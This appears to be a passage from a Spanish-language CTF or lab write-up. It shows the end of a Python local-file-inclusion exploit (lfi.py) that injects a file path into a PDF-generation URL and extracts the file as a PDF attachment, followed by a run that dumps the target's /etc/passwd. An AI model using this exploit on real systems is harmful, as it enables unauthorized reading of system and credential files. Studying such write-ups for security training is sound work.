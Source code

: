 ```python
    file = input("Archivo: ")
    url = PDF_URL.replace("<FILENAME>", do_request(file))
    r = requests.get(url)
    
    # Almacenamos el PDF temporalmente
    with open("temp.pdf", "wb") as f:
        f.write(r.content)

    extract_attachment_from_pdf("temp.pdf")
    

if __name__ == "__main__":
    while True:
        lfi()
```

Funcionamiento...
```shell
$ python3 lfi.py
Archivo: /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
gbyolo:x:1000:1000:gbyolo:/home/gbyolo:/bin/bash
postfix:x:113:119::/var/spool/postfix:/usr/sbin/nologin
developer:x:1001:1002:,,,:/home/developer:/bin/bash
usbmux:x:114:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```
 